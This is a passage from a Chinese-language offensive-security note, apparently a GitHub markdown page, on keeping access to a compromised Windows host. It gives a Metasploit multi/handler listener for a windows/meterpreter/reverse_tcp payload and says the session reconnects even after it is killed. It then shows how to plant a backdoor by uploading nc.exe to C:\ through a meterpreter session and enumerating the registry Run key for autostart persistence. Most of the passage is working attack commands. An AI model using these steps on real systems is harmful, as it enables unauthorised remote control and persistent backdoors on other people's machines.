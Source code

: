 【如果msf关闭了，下次重开】

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 4321
set lhost [自己ip]
exploit
```

7. 重启回来登录后，我们再重开msf，也可以监听。
8. 即使`sessions -k [id] `【干掉session id后】，过了60s还会回来



## 利用上传文件安插后门：

安插木马后



利用nc：

进入一个session中：

```
upload /root/nc.exe c:\\
```



查看注册表里有什么：

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
```

对应：

![image-20220111123210834](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220111123210834.png)
